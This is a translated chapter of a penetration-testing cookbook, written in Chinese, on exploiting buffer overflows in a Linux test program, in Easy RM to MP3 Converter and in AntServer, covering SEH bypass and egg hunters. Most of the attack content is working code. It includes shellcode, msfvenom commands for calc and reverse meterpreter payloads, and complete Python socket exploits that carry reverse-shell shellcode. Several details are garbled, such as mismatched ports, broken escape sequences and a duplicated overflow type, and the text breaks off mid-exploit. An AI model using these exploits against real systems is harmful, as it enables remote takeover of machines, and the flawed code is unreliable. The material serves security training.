









# 第九章：缓冲区溢出

在本章中，我们将涵盖以下内容：

+   利用基于堆栈的缓冲区溢出

+   利用真实软件的缓冲区溢出

+   SEH 绕过

+   利用 egg hunters

+   ASLR 和 NX 绕过的概述

# 介绍

在软件程序中，当程序在向缓冲区写入数据时，超出了分配的缓冲区大小，并开始向相邻的内存位置覆盖数据时，就会发生缓冲区溢出。

缓冲区可以被认为是分配给程序的内存中的临时区域，用于在需要时存储和检索数据。

长期以来已知缓冲区溢出已被利用。

在利用缓冲区溢出时，我们的主要关注点是覆盖一些控制信息，以便程序的控制流发生变化，这将允许我们的代码控制程序。

这是一个图表，将给我们一个关于缓冲区溢出发生的基本概念：



从前面的图表中，我们可以假设这就是一个程序的样子。因为它是一个堆栈，它从底部开始，向堆栈的顶部移动。

从前面的图表中，我们还注意到程序有一个固定的缓冲区来存储 16 个字母/字节的数据。

我们首先输入 8 个字符（*1 个字符=1 个字节*）；在图表的右侧，我们可以看到它们已经被写入程序内存的缓冲区中。

让我们看看当我们向程序写入 20 个字符时会发生什么：


来源：http://www.cbi.umn.edu/

我们可以看到数据被正确地写入了 16 个字符，但最后的 4 个字符现在已经超出了缓冲区，并覆盖了程序的**返回地址**中存储的值。这就是经典的缓冲区溢出发生的地方。

让我们看一个实际例子；我们将使用一个示例代码：

```
#include <stdio.h> 
#include <string.h> 
#include <stdlib.h> 
int main(int argc, char *argv[]) 
{ 
    char buffer[5]; 
    if (argc < 2) 
        { 
            printf("strcpy() NOT executed....\n"); 
            printf("Syntax: %s <characters>\n", argv[0]); 
            exit(0); 
        } 
    strcpy(buffer, argv[1]); 
    printf("buffer content= %s\n", buffer); 

    // you may want to try strcpy_s() 
    printf("strcpy() executed...\n"); 
    return 0; 
} 
```

前面的程序简单地在运行时接受一个输入，并将其复制到一个名为`buffer`的变量中。我们可以看到变量缓冲区的大小设置为`5`。

现在我们使用这个命令进行编译：

```
gcc program.c -o program
```

我们需要小心，因为`gcc`默认具有内置的安全功能，可以防止缓冲区溢出。

我们使用这个命令运行程序：

```
./program 1234  
```

我们看到它已经存储了数据，我们得到了输出。

现在让我们运行这个：

```
./program 12345   
```

我们会看到程序以分段错误退出。这是`gcc`的启用安全功能。

我们将在下一节中更多地了解返回地址。然而，用我们自己的代码覆盖返回地址可以导致程序的行为与通常执行不同，并帮助我们利用这个漏洞。

模糊测试是发现程序中缓冲区溢出最简单的方法。Kali 中有各种模糊测试工具，或者我们可以根据程序类型编写自定义脚本。

一旦模糊测试完成并发生崩溃，我们的下一步是调试程序，找到程序崩溃的确切部分以及如何利用它来获利。

在线也有多个调试器可用。我个人在 Windows 上最喜欢的是 Immunity Debugger（Immunity Inc.）。Kali 也带有一个内置的调试器 GDB。这是一个命令行调试器。

在我们进一步探讨更激动人心的话题之前，请注意通常在程序中会发生两种类型的溢出。

主要有两种类型的缓冲区溢出：

+   基于堆栈的溢出

+   基于堆栈的溢出

我们将在本章的后面更详细地涵盖这些内容。现在，让我们澄清一些基础知识，这将帮助我们利用溢出漏洞。

# 利用基于堆栈的缓冲区溢出

现在我们的基础知识已经清楚，让我们继续学习基于堆栈的缓冲区溢出的利用。

# 如何做...

以下步骤演示了基于堆栈的缓冲区溢出：

1.  让我们看另一个简单的 C 程序：

```
        #include<stdio.h> 
        #include<string.h> 
        void main(int argc, char *argv[]) 
        { 
            char buf[120]; 
            strcpy(buf, argv[1]); 
            printf(buf); 
        }  
```

这个程序使用了一个有漏洞的方法`strcyp()`。我们将程序保存到一个文件中。

1.  然后我们使用`gcc`编译程序，使用`fno-stack-protector`和`execstack`：

```
 gcc -ggdb name.c -o name -fno-stack-protector -z execstack
```

1.  接下来，我们关闭地址空间随机化：

```
 echo 0 > /proc/sys/kernel/randomize_va_space
```

1.  现在我们使用以下命令在`gdb`中打开我们的程序：

```
 gdb ./name
```

以下截图显示了上述命令的输出：


1.  接下来，我们使用 Python 使用以下命令输入我们的输入：

```
 r $(python -c 'print "A"*124')
```

以下截图显示了上述命令的输出：


1.  我们可以看到程序崩溃并显示错误`0x41414141`。这意味着我们输入的字符`A`覆盖了 EIP。

1.  我们通过输入`i r`来确认：


1.  这告诉我们 EIP 寄存器的值已经成功被覆盖。

1.  接下来，我们找到覆盖 EIP 的确切字节。我们可以通过在程序中输入不同的字符，然后检查哪个字符覆盖了 EIP 来做到这一点。

1.  因此，我们再次运行程序，这次使用不同的字符：

```
 r $(python -c 'print "A"*90+"B"*9+"C"*25')
```

以下截图显示了上述命令的输出：


1.  这一次，我们看到 EIP 的值是`CCCC`。这意味着我们需要的字节在我们提供的最后 25 个字符中的某个位置。

1.  类似地，我们尝试不同组合的 124 个字符，直到找到确切覆盖 EIP 的 4 个字符的位置：


1.  现在，既然我们已经找到了 EIP 的确切位置，并且为了执行成功的利用，我们需要用我们将存储 shellcode 的内存地址覆盖这 4 个字节。我们的内存中有大约 100 个字节，其中当前存储着`A`，这对我们的 shellcode 来说已经足够了。因此，我们需要在调试器中添加断点，在跳转到下一条指令之前停下来。

1.  我们使用`list 8`命令列出程序：


1.  然后我们在调用函数的行和调用后使用`b <linenumber>`添加我们的断点。

1.  现在我们再次运行程序，它将在断点处停止：


1.  我们按下`c`以继续。

1.  现在让我们看一下`esp`（堆栈指针）寄存器：

```
 x/16x $esp
```

以下截图显示了上述命令的输出：


1.  这将向我们展示`esp`寄存器之后的 16 个字节，在左侧列中，我们将看到与存储的数据对应的内存地址。

1.  在这里，我们看到数据从地址`0xbffff190`开始。我们注意到下一个内存地址`0xbfff1a0`。这是我们将用来写入 EIP 的地址。当程序覆盖 EIP 时，它将使其跳转到这个地址，我们的 shellcode 将存储在这里：


1.  让我们尝试通过利用溢出来打开一个 shell。我们可以在 Google 上找到将为我们执行 shell 的 shellcode：


1.  我们有 100 个字节，我们的 shellcode 是 24 个字节。我们可以在我们的利用中使用这个。

1.  现在我们简单地用`90` no op 汇编指令（`0x90`）替换`A`，并用 shellcode 替换其余的 24 个字节，然后用我们希望 EIP 指向的内存地址替换`B`，用 no op 代码替换`C`。这应该看起来像这样：

```
 "\x90"*76+"\x6a\x0bx58x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\
        x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80"
        +"\xa0\xff\xf1\xbf"+"\x90"*20
```

1.  让我们重新运行程序并将其作为输入：

```
 r $(python -c print' "\x90"*76+"\x6a\x0bx58x31\xf6\x56\x68\
        x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\
        xcd\x80"+"\xa0\xff\xf1\xbf"+"\x90"*20')
```

1.  我们输入`c`以从断点继续，一旦执行完成，我们的 shell 就会被执行。

# 利用真实软件的缓冲区溢出

您之前已经学习了利用的基础知识。现在让我们尝试在一些早已被利用并且有公开利用的软件上进行尝试。在这个示例中，您将了解旧软件的公开利用以及为其创建自己版本的利用。

在开始之前，我们需要一个旧版本的 Windows 操作系统（最好是 Windows XP）和一个 Windows 调试器。我使用了 Immunity Debugger 和一个已知的缓冲区溢出漏洞的旧软件。我们将使用*Easy RM to MP3 Converter*。这个版本在播放大型 M3U 文件时存在缓冲区溢出漏洞。

# 准备工作

Immunity Debugger 的免费版本可以在[`www.immunityinc.com/products/debugger/`](https://www.immunityinc.com/products/debugger/)上下载。 

# 如何做...

按照给定的步骤来学习：

1.  接下来，我们下载并在机器上安装我们的 MP3 转换器。

1.  这个转换器在播放 M3U 文件时存在漏洞。当使用它打开一个大文件进行转换时，软件会崩溃。

1.  让我们创建一个文件，里面写入大约 30,000 个`A`，并将其保存为`<filename>.m3u`：



1.  然后，我们将文件拖放到播放器中，我们会看到它崩溃了：


1.  现在我们需要找到导致崩溃的确切字节数。

1.  在文件中手动输入这么多`A`将会花费很长时间，所以我们写一个简单的 Python 程序来代替我们做这件事：

```
        import io
        a="A"*30000
        file =open("crash.m3u","w")
        file.write(a)
        file.close()
```

1.  现在我们玩弄字节，找到崩溃的确切值。

1.  在我们的情况下，由于程序在 26,104 字节处没有崩溃，所以它的长度是 26,105：


1.  现在，我们运行我们的调试器，并通过导航到 File | Attach 将正在运行的转换程序附加到它：


1.  然后，我们从正在运行的程序列表中选择进程名称：


1.  一旦附加成功，我们就在程序中打开我们的 M3U 文件。我们将在调试器的状态栏中看到一个警告。我们只需按下*F9*键或点击顶部菜单栏上的播放按钮继续：


1.  我们会看到 EIP 被`A`覆盖，并且程序崩溃了：



1.  现在我们需要找到导致崩溃的确切 4 个字节。我们将使用 Kali 中称为*pattern create*的脚本。它会为我们想要的字节数生成一个唯一的模式。

1.  我们可以使用 locate 命令找到脚本的路径：

```
 locate pattern_create
```

以下截图显示了前面命令的输出：


1.  现在我们知道了路径，我们运行脚本并传递字节数：

```
 ruby /path/to/script/pattern_create.rb 5000
```

1.  我们使用 5,000 是因为我们已经知道它不会在 25,000 处崩溃，所以我们只为接下来的 5,000 字节创建一个模式。

1.  我们有了我们的唯一模式。我们现在将其粘贴到我们的 M3U 文件中，再加上 25,000 个`A`。

1.  我们打开我们的应用程序，并将进程附加到我们的调试器上：



1.  然后我们将我们的 M3U 文件拖放到程序中。

1.  它崩溃了，我们的 EIP 被 42386b42 覆盖了。

1.  Metasploit 有另一个很棒的脚本来找到偏移的位置：

```
 ruby /path/to/script/pattern_offset.rb 5000
```

1.  现在我们在`1104`处找到了偏移匹配；将其加到 25,000 个`A`上，我们现在知道 EIP 在 26,104 字节后被覆盖：


1.  接下来，我们需要找到一个可靠的方法来跳转到 shellcode。我们通过在 EIP 之后简单地写入额外的随机字符到堆栈中，确保我们写入的 shellcode 将被正确地写入内存。

1.  我们运行程序，将其附加到调试器，并让它崩溃。

1.  我们将看到 EIP 已经成功被覆盖。在右下角的窗口中，我们右键单击并选择 Go to ESP：


1.  在这里，我们注意到 ESP 实际上是从第 5 个字节开始的。为了确保我们的 shellcode 能够正确执行，我们现在需要确保 shellcode 在 4 个字节之后开始。我们可以插入四个 NOP 来修复这个问题：


1.  由于我们控制了 EIP，有多种方法可以执行我们的 shellcode，我们将在这里介绍其中两种。第一种方法很简单：我们在代码中找到`jmp esp`指令并用它覆盖地址。要做到这一点，我们右键单击并导航到搜索 | 所有模块中的所有命令：


1.  我们输入`jmp esp`指令：



1.  在结果框中，我们看到我们的指令，并复制地址用于我们的利用。


1.  现在让我们编写一个利用。基本概念将是`垃圾字节 + 跳转 ESP 的地址 + NOP 字节 + Shellcode`：



1.  我们可以生成计算器的 shellcode：

```
 msfvenom windows/exec CMD=calc.exe R | msfencode -b
        '\x00\x0A\x0D' -t c
```

1.  现在我们运行利用，当程序崩溃时，我们应该看到计算器打开！


1.  让我们尝试另一种方法；假设没有`jmp` esps 可供我们使用。在这种情况下，我们可以使用`push esp`，然后使用`ret`指令，它将将指针移动到堆栈的顶部，然后调用`esp`。

1.  我们遵循相同的步骤直到*步骤 25*。然后，我们右键单击并转到搜索 | 所有模块中的所有序列。

1.  在这里，我们输入`push esp ret`：


1.  在结果中，我们看到地址中有序列：`018F1D88`。

1.  现在我们只需用我们的利用代码中的 EIP 地址替换它并运行利用，我们应该打开一个计算器：


# SEH 绕过

在开始之前，我们需要了解 SEH 是什么。**SEH**代表**结构化异常处理**。我们可能经常看到程序弹出一个错误，说*软件遇到问题需要关闭*。这基本上意味着 Windows 的默认异常处理程序开始起作用。

SEH 处理程序可以被认为是在程序中出现异常时按顺序执行的`try`和`catch`语句块。这是典型的 SEH 链的样子：



https://www.corelan.be/wp-content/uploads/2009/07/image_thumb45.png

当发生异常时，SEH 链会出手处理异常，根据其类型处理异常。

因此，当发生非法指令时，应用程序有机会处理异常。如果应用程序中没有定义异常处理程序，我们将看到 Windows 显示的错误：类似于发送报告给 Microsoft。

要成功利用具有 SEH 处理程序的程序，我们首先尝试用我们的缓冲区填充堆栈，然后尝试覆盖存储第一个 SEH 记录链的内存地址。然而，这还不够；我们还需要生成一个错误，这将实际触发 SEH 处理程序，然后我们将能够完全控制程序的执行流程。一个简单的方法是一直填充堆栈，直到底部，这将创建一个需要处理的异常，而且由于我们已经控制了第一个 SEH 记录，我们将能够利用它。

# 如何做到...

在这个教程中，您将学习如何做到这一点：

1.  让我们下载一个名为 AntServer 的程序。它有很多公开的漏洞利用可用，我们将尝试为其构建我们自己的利用。

1.  我们将其安装在我们在上一个教程中使用的 Windows XP SP2 机器上。

1.  AntServer 存在一个漏洞，可以通过向运行在端口`6600`上的 AntServer 发送一个长的 USV 请求来触发：



1.  让我们通过打开软件并导航到服务器 | 运行服务控制...来运行 AntServer：


1.  现在让我们编写一个简单的 Python 脚本，将一个大请求发送到端口`6600`的服务器：

```
        #!/usr/bin/pythonimport socket
        import socket
        address="192.168.110.6"
        port=6660    
        buffer = "USV " + "\x41" * 2500 + "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((address, port))
        sock.send(buffer)
        sock.close()
```

1.  回到 Windows 机器，让我们启动 Immunity Debugger 并将进程`AntServer.exe`附加到它上。然后，点击`Run`。

1.  一旦程序运行，我们从 Kali 运行我们的 Python 脚本，在我们的调试器中，我们会看到一个违规错误。然而，我们的 EIP 还没有被覆盖：


1.  在调试器的文件菜单中，我们转到查看| SEH 链。在这里，我们会看到地址已被`AAAA`覆盖。现在我们按*Shift*+ *F9*将一个异常传递给程序。我们会看到 EIP 已经被覆盖，并且我们会收到一个错误：


1.  我们还会注意到其他寄存器的值现在已经变为零。这种寄存器清零是在 Windows XP SP1 及以后引入的，以使 SEH 利用变得更加困难。

1.  我们正在使用 Windows XP SP2。它有一个名为**SAFESEH**的功能。当这个选项在模块中启用时，只有注册的 SEH 处理程序列表中列出的内存地址才能被使用，这意味着如果我们使用任何不在列表上的地址，来自使用`/SAFESEH ON`编译的模块，SEH 地址将不会被 Windows 异常处理程序使用，SEH 覆盖将失败。

1.  有几种方法可以绕过这个问题，这是其中一种：使用一个没有使用`/SAFESEH ON`或`IMAGE_DLLCHARACTERISTICS_NO_SEH`选项编译的模块的覆盖地址。

1.  为了找到这个，我们将使用一个名为**mona**的 Immunity Debugger 插件。它可以从[`github.com/corelan/mona`](https://github.com/corelan/mona)下载：


1.  我们只需将 Python 文件复制到 Immunity 应用程序的`PyCommands`文件夹中。

1.  让我们继续制作利用程序。我们已经看到 EIP 已经被覆盖。现在我们将尝试使用 Kali Linux 中的模式创建脚本找到崩溃发生的确切字节：

```
 ruby /path/to/script/pattern_create.rb -l 2500
```

以下截图显示了前面命令的输出：


1.  代码应该是这样的：


1.  现在我们运行这个文件，在 Immunity Debugger 中，我们会看到访问违规错误。现在我们去查看| SEH 链。

1.  我们会看到我们的 SEH 已经被覆盖了。我们复制`42326742`的值，并使用 Kali 中的`pattern_offset`脚本找到它的位置：


```
 ruby /path/to/script/pattern_offset.rb -q 423267412
```

以下截图显示了前面命令的输出：


1.  我们会看到偏移量为`966`字节，处理程序被覆盖的位置。

1.  现在让我们稍微修改我们的利用程序，看看会发生什么。我们有`966`字节；我们将使用`962`字节的 A 和 4 字节的断点，再用 4 个 B，剩下的字节用 C 来看看会发生什么：

```
        #!/usr/bin/python
        import socket address="192.168.110.12"
        port=6660 buffer = "USV "
        buffer+= "A" * 962
        buffer+= "\xcc\xcc\xcc\xcc"
        buffer+= "BBBB"
        buffer+= "C" * (2504 - len(buffer))
        buffer+= "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((target_address,target_port)) 
        sock.send(buffer)
        sock.close()
```

1.  我们运行这个并查看 SEH 链。在这里，我们会注意到一个有趣的事情：我们添加的前 4 个断点实际上已经覆盖了一个内存地址，接下来的 4 个已经被覆盖到我们的 SEH 处理程序中：


这是因为 SEH 是一个指针，指向发生异常时代码存储的内存地址。

1.  让我们将异常传递给程序，我们会看到 EIP 已经被覆盖，但当我们查看内存时，我们会看到我们的 Cs 在内存中的 Bs 之后大约写入了 6 个字节。我们可以使用`POP RET`后跟一个短的`JUMP`代码来跳转到我们的 shellcode。

1.  我们在调试器的控制台中输入`!safeseh`命令：


1.  这将显示所有未使用`SAFESEH/ON`编译的 DLL 的列表。在日志窗口中，我们将看到函数的列表：


1.  让我们使用一个名为`vbajet32.dll`的 DLL。我们的目标是在 DLL 中找到一个`POP POP RET`序列，我们可以用它来绕过 SEH。

1.  我们在 Windows 机器上找到我们的 DLL 并将其复制到 Kali。Kali 还有另一个很棒的工具，称为`msfpescan`，可以用来在 DLL 中查找`POP POP RET`序列：

```
 /path/to/msfpescan -f vbajet32.dll -s
```

以下屏幕截图显示了前面命令的输出：



1.  在这里，我们有所有`.dll`中`POP POP RET`序列的地址。我们将使用第一个`0x0f9a1f0b`。我们还需要一个短的`JUMP`代码，它将导致跳转到我们的 shellcode 或存储在内存中的 Cs。

1.  短`JUMP`是`\xeb\x06`，其中`06`是我们需要跳转的字节数。我们仍然缺少 4 字节地址空间的 2 个字节，我们可以使用 2 个 NOPs。

1.  让我们创建一个 shellcode；因为我们将通过 HTTP 发送这个 shellcode，所以我们需要确保避免坏字符。我们将使用 msfvenom：

```
 msfvenom -p windows/meterpreter/reverse_tcp -f py
        -b "\x00\xff\x20\x25\x0a\x-d" -v buffer
```

以下屏幕截图显示了前面命令的输出：


1.  我们将把所有东西放在利用中，如下所示：

```
        #!/usr/bin/python
        import socket
        target_address="192.168.110.12"
        target_port=6660
        buffer = "USV "
        buffer += "\x41" * 962 #offset
        # 6 Bytes SHORT jump to shellcode
        buffer += "\xeb\x06\x90\x90"
        # POP+POP+RET 0x0f9a196a
        buffer += "\x6a\x19\x9a\x0f"
        buffer += "\x90" * 16
        #Shellcode Reverse meterpreter.
        buffer += "\xdb\xde\xd9\x74\x24\xf4\xbf\xcf\x9f\xb1\x9a\x5e"
        buffer += "\x31\xc9\xb1\x54\x83\xee\xfc\x31\x7e\x14\x03\x7e"
        buffer += "\xdb\x7d\x44\x66\x0b\x03\xa7\x97\xcb\x64\x21\x72"
        buffer += "\xfa\xa4\x55\xf6\xac\x14\x1d\x5a\x40\xde\x73\x4f"
        buffer += "\xd3\x92\x5b\x60\x54\x18\xba\x4f\x65\x31\xfe\xce"
        buffer += "\xe5\x48\xd3\x30\xd4\x82\x26\x30\x11\xfe\xcb\x60"
        buffer += "\xca\x74\x79\x95\x7f\xc0\x42\x1e\x33\xc4\xc2\xc3"
        buffer += "\x83\xe7\xe3\x55\x98\xb1\x23\x57\x4d\xca\x6d\x4f"
        buffer += "\x92\xf7\x24\xe4\x60\x83\xb6\x2c\xb9\x6c\x14\x11"
        buffer += "\x76\x9f\x64\x55\xb0\x40\x13\xaf\xc3\xfd\x24\x74"
        buffer += "\xbe\xd9\xa1\x6f\x18\xa9\x12\x54\x99\x7e\xc4\x1f"
        buffer += "\x95\xcb\x82\x78\xb9\xca\x47\xf3\xc5\x47\x66\xd4"
        buffer += "\x4c\x13\x4d\xf0\x15\xc7\xec\xa1\xf3\xa6\x11\xb1"
        buffer += "\x5c\x16\xb4\xb9\x70\x43\xc5\xe3\x1c\xa0\xe4\x1b"
        buffer += "\xdc\xae\x7f\x6f\xee\x71\xd4\xe7\x42\xf9\xf2\xf0"
        buffer += "\xa5\xd0\x43\x6e\x58\xdb\xb3\xa6\x9e\x8f\xe3\xd0"
        buffer += "\x37\xb0\x6f\x21\xb8\x65\x05\x24\x2e\x46\x72\x48"
        buffer += "\xa5\x2e\x81\x95\xa8\xf2\x0c\x73\x9a\x5a\x5f\x2c"
        buffer += "\x5a\x0b\x1f\x9c\x32\x41\x90\xc3\x22\x6a\x7a\x6c"
        buffer += "\xc8\x85\xd3\xc4\x64\x3f\x7e\x9e\x15\xc0\x54\xda"
        buffer += "\x15\x4a\x5d\x1a\xdb\xbb\x14\x08\x0b\xda\xd6\xd0"
        buffer += "\xcb\x77\xd7\xba\xcf\xd1\x80\x52\xcd\x04\xe6\xfc"
        buffer += "\x2e\x63\x74\xfa\xd0\xf2\x4d\x70\xe6\x60\xf2\xee"
        buffer += "\x06\x65\xf2\xee\x50\xef\xf2\x86\x04\x4b\xa1\xb3"
        buffer += "\x4b\x46\xd5\x6f\xd9\x69\x8c\xdc\x4a\x02\x32\x3a"
        buffer += "\xbc\x8d\xcd\x69\xbf\xca\x32\xef\x9d\x72\x5b\x0f"
        buffer += "\xa1\x82\x9b\x65\x21\xd3\xf3\x72\x0e\xdc\x33\x7a"
        buffer += "\x85\xb5\x5b\xf1\x4b\x77\xfd\x06\x46\xd9\xa3\x07"
        buffer += "\x64\xc2\xb2\x89\x8b\xf5\xba\x6b\xb0\x23\x83\x19"
        buffer += "\xf1\xf7\xb0\x12\x48\x55\x90\xb8\xb2\xc9\xe2\xe8"
        # NOP SLED
        buffer += "\x90" * (2504 - len(buffer))
        buffer += "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((target_address,target_port))
        sock.send(buffer)
        print "Sent!!"
        sock.close()
```

以下屏幕截图显示了前面命令的输出：


1.  这次我们不使用调试器运行。我们将在 Kali 中打开我们的处理程序，然后我们应该有 meterpreter 访问：


# 另请参阅

+   [`www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/`](https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/)

+   [`resources.infosecinstitute.com/bypassing-seh-protection-a-real-life-example/`](http://resources.infosecinstitute.com/bypassing-seh-protection-a-real-life-example/)

# 利用蛋猎手

当内存中没有足够的空间连续放置我们的 shellcode 时，就会使用蛋猎手。使用这种技术，我们在我们的 shellcode 前面加上一个唯一的标签，然后蛋猎手基本上会在内存中搜索该标签并执行 shellcode。

蛋猎手包含一组编程指令；它与 shellcode 并没有太大的不同。有多种蛋猎手可用。您可以通过 skape 的这篇论文了解更多关于它们以及它们如何工作的信息：[`www.hick.org/code/skape/papers/egghunt-shellcode.pdf`](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf)。

# 准备工作

我们将尝试使用一个蛋猎手为我们在上一个教程中使用的相同软件制作一个漏洞利用。利用的逻辑将类似于以下图表所示的内容：


我们的目标是覆盖**nSEH**，然后**SEH**，以便它跳转到蛋猎手 shellcode，当执行时，将在内存中找到并执行我们的 shellcode。

# 如何做...

以下是演示使用蛋猎手的步骤：

1.  我们在 Windows XP 上启动软件并将其附加到调试器：


1.  我们已经知道了崩溃字节和绕过 SAFESEH 的地址。

1.  现在我们需要添加我们的蛋猎手，然后使用它来跳转到我们的 shellcode。

1.  正如我们所知，蛋猎手是一种 shellcode，使用 shellcode 的基本规则是确保它没有任何坏字符。

1.  让我们看看我们之前制作的漏洞利用：

```
        #!/usr/bin/python
        import socket
        target_address="192.168.110.12"
        target_port=6660
        buffer = "USV "
        buffer += "\x41" * 962 #offset
        # 6 Bytes SHORT jump to shellcode
        buffer += "\xeb\x06\x90\x90"
        # POP+POP+RET 0x0f9a196a
        buffer += "\x6a\x19\x9a\x0f"
        buffer += "\x90" * 16
        #Shellcode Reverse meterpreter.
        buffer += "\xdb\xde\xd9\x74\x24\xf4\xbf\xcf\x9f\xb1\x9a\x5e"
        buffer += "\x31\xc9\xb1\x54\x83\xee\xfc\x31\x7e\x14\x03\x7e"
        buffer += "\xdb\x7d\x44\x66\x0b\x03\xa7\x97\xcb\x64\x21\x72" 
        buffer += "\xfa\xa4\x55\xf6\xac\x14\x1d\x5a\x40\xde\x73\x4f"
        buffer += "\xd3\x92\x5b\x60\x54\x18\xba\x4f\x65\x31\xfe\xce"
        buffer += "\xe5\x48\xd3\x30\xd4\x82\x26\x30\x11\xfe\xcb\x60"
        buffer += "\xca\x74\x79\x95\x7f\xc0\x42\x1e\x33\xc4\xc2\xc3"
        buffer += "\x83\xe7\xe3\x55\x98\xb1\x23\x57\x4d\xca\x6d\x4f"
        buffer += "\x92\xf7\x24\xe4\x60\x83\xb6\x2c\xb9\x6c\x14\x11"
        buffer += "\x76\x9f\x64\x55\xb0\x40\x13\xaf\xc3\xfd\x24\x74"
        buffer += "\xbe\xd9\xa1\x6f\x18\xa9\x12\x54\x99\x7e\xc4\x1f"
        buffer += "\x95\xcb\x82\x78\xb9\xca\x47\xf3\xc5\x47\x66\xd4"
        buffer += "\x4c\x13\x4d\xf0\x15\xc7\xec\xa1\xf3\xa6\x11\xb1" 
        buffer += "\x5c\x16\xb4\xb9\x70\x43\xc5\xe3\x1c\xa0\xe4\x1b"
        buffer += "\xdc\xae\x7f\x6f\xee\x71\xd4\xe7\x42\xf9\xf2\xf0"
        buffer += "\xa5\xd0\x43\x6e\x58\xdb\xb3\xa6\x9e\x8f\xe3\xd0"
        buffer += "\x37\xb0\x6f\x21\xb8\x65\x05\x24\x2e\x46\x72\x48"
        buffer += "\xa5\x2e\x81\x95\xa8\xf2\x0c\x73\x9a\x5a\x5f\x2c"
        buffer += "\x5a\x0b\x1f\x9c\x32\x41\x90\xc3\x22\x6a\x7a\x6c"
        buffer += "\xc8\x85\xd3\xc4\x64\x3f\x7e\x9e\x15\xc0\x54\xda"
        buffer += "\x15\x4a\x5d\x1a\xdb\xbb\x14\x08\x0b\xda\xd6\xd0"
        buffer += "\xcb\x77\xd7\xba\xcf\xd1\x80\x52\xcd\x04\xe6\xfc"
        buffer += "\x2e\x63\x74\xfa\xd0\xf2\x4d\x70\xe6\x60\xf2\xee"
        buffer += "\x06\x65\xf2\xee\x50\xef\xf2\x86\x04\x4b\xa1\xb3"
        buffer += "\x4b\x46\xd5\x6f\xd9\x69\x8c\xdc\x4a\x02\x32\x3a"
        buffer += "\xbc\x8d\xcd\x69\xbf\xca\x32\xef\x9d\x72\x5b\x0f"
        buffer += "\xa1\x82\x9b\x65\x21\xd3\xf3\x72\x0e\xdc\x33\x7a"
        buffer += "\x85\xb5\x5b\xf1\x4b\x77\xfd\x06\x46\xd9\xa3\x07"
        buffer += "\x64\xc2\xb2\x89\x8b\xf5\xba\x6b\xb0\x23\x83\x19"
        buffer += "\xf1\xf7\xb0\x12\x48\x55\x90\xb8\xb2\xc9\xe2\xe8"
        # NOP SLED
        buffer += "\x90" * (2504 - len(buffer))
        buffer += "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((target_address,target_port))
        sock.send(buffer)
        print "Sent!!"
        sock.close()
```

1.  假设 shellcode 实际上并不在我们在内存中制作的 6 字节跳转之后。在这种情况下，我们可以使用蛋猎手为软件制作一个可靠的利用。

1.  现在听起来可能很容易，但也有一些复杂之处。我们需要我们的最终利用程序遵循我们在图表中提到的流程，但我们还需要确保代码中有足够的 NOPs 来确保利用。

1.  我们的利用流程应该如下所示，就像我们的情况一样，我们有足够的内存来存放 shellcode。但在其他情况下，我们可能没有那么多内存，或者我们的 shellcode 可能存储在内存的其他地方。在这些情况下，我们可以使用蛋猎手，我们将在后面的教程中介绍：


1.  根据前面的流程图，我们的 shellcode 看起来应该是这样的：

```
        #!/usr/bin/python
        import socket
        target_address="192.168.110.12"
        target_port=6660
        #Egghunter Shellcode 32 bytes
        egghunter = ""
        egghunter += "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\
          x2e\x3c\x05\x5a\x74"
        egghunter += "\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf
          \x75\xe7\xff\xe7"
        # 6 Bytes SHORT jump to shellcode
        nseh = "\xeb\x09\x90\x90"
        # POP+POP+RET 0x0f9a196a
        seh = "\x6a\x19\x9a\x0f"
        #Shellcode Reverse meterpreter. 360 bytes
        buffer = ""
        buffer += "\xdb\xde\xd9\x74\x24\xf4\xbf\xcf\x9f\xb1\x9a\x5e"
        buffer += "\x31\xc9\xb1\x54\x83\xee\xfc\x31\x7e\x14\x03\x7e"
        buffer += "\xdb\x7d\x44\x66\x0b\x03\xa7\x97\xcb\x64\x21\x72"
        buffer += "\xfa\xa4\x55\xf6\xac\x14\x1d\x5a\x40\xde\x73\x4f"
        buffer += "\xd3\x92\x5b\x60\x54\x18\xba\x4f\x65\x31\xfe\xce"
        buffer += "\xe5\x48\xd3\x30\xd4\x82\x26\x30\x11\xfe\xcb\x60"
        buffer += "\xca\x74\x79\x95\x7f\xc0\x42\x1e\x33\xc4\xc2\xc3"
        buffer += "\x83\xe7\xe3\x55\x98\xb1\x23\x57\x4d\xca\x6d\x4f"
        buffer += "\x92\xf7\x24\xe4\x60\x83\xb6\x2c\xb9\x6c\x14\x11"
        buffer += "\x76\x9f\x64\x55\xb0\x40\x13\xaf\xc3\xfd\x24\x74"
        buffer += "\xbe\xd9\xa1\x6f\x18\xa9\x12\x54\x99\x7e\xc4\x1f"
        buffer += "\x95\xcb\x82\x78\xb9\xca\x47\xf3\xc5\x47\x66\xd4"
        buffer += "\x4c\x13\x4d\xf0\x15\xc7\xec\xa1\xf3\xa6\x11\xb1"
        buffer += "\x5c\x16\xb4\xb9\x70\x43\xc5\xe3\x1c\xa0\xe4\x1b"
        buffer += "\xdc\xae\x7f\x6f\xee\x71\xd4\xe7\x42\xf9\xf2\xf0"
        buffer += "\xa5\xd0\x43\x6e\x58\xdb\xb3\xa6\x9e\x8f\xe3\xd0"
        buffer += "\x37\xb0\x6f\x21\xb8\x65\x05\x24\x2e\x46\x72\x48"
        buffer += "\xa5\x2e\x81\x95\xa8\xf2\x0c\x73\x9a\x5a\x5f\x2c"
        buffer += "\x5a\x0b\x1f\x9c\x32\x41\x90\xc3\x22\x6a\x7a\x6c"
        buffer += "\xc8\x85\xd3\xc4\x64\x3f\x7e\x9e\x15\xc0\x54\xda"
        buffer += "\x15\x4a\x5d\x1a\xdb\xbb\x14\x08\x0b\xda\xd6\xd0"
